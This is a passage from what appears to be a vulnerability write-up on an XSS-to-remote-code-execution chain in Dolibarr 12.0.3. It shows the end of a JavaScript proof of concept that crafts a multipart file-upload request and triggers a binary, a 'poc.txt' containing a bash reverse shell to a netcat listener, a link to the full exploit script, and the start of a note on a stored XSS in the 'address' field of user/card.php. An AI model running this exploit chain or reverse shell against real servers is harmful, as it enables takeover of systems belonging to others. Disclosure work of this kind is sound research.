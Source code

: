 ```js
        "\r\n" + 
        "0\r\n" + 
        "-----------------------------38749762618930241634203718874\r\n" + 
        "Content-Disposition: form-data; name=\"sortfield\"\r\n" + 
        "\r\n" + 
        "\r\n" + 
        "-----------------------------38749762618930241634203718874\r\n" + 
        "Content-Disposition: form-data; name=\"sortorder\"\r\n" + 
        "\r\n" + 
        "\r\n" + 
        "-----------------------------38749762618930241634203718874\r\n" + 
        "Content-Disposition: form-data; name=\"max_file_size\"\r\n" + 
        "\r\n" + 
        "2097152\r\n" + 
        "-----------------------------38749762618930241634203718874\r\n" + 
        "Content-Disposition: form-data; name=\"userfile[]\"; filename=\"junk.txt\"\r\n" + 
        "Content-Type: text/plain\r\n" + 
        "\r\n" + 
        "junk\n" + 
        "\r\n" + 
        "-----------------------------38749762618930241634203718874\r\n" + 
        "Content-Disposition: form-data; name=\"sendit\"\r\n" + 
        "\r\n" + 
        "Envoyer fichier\r\n" + 
        "-----------------------------38749762618930241634203718874--\r\n";
    var aBody2 = new Uint8Array(body2.length);
    for (var i = 0; i < aBody2.length; i++)
        aBody2[i] = body2.charCodeAt(i); 
    xhr2.send(new Blob([aBody2]));
}

changeBinary();
setTimeout(triggerBinary, 3000);
```

File: <span style="color:red">poc.txt</span>
```bash
bash -i >& /dev/tcp/<NETCAT_LISTENER_IP>/<NETCAT_LISTENER_PORT> 0>&1<>
```

<img src="https://raw.githubusercontent.com/therealcoiffeur/therealcoiffeur.github.io/master/captures/c17_18.gif"/>

- [POC](https://github.com/therealcoiffeur/therealcoiffeur.github.io/blob/master/tools/Dolibarr/xss_to_rce_12.0.3.js)

<br>
<br>

## UPDATE: Stored XSS in POST parameter `address`

Identification of a new parameter allowing the exploitation of a Sotred XSS for path <span style="color:red">\<ROOT\>/user/card.php</span>.

By modifying his address a user can inject code in order to trigger an XSS:
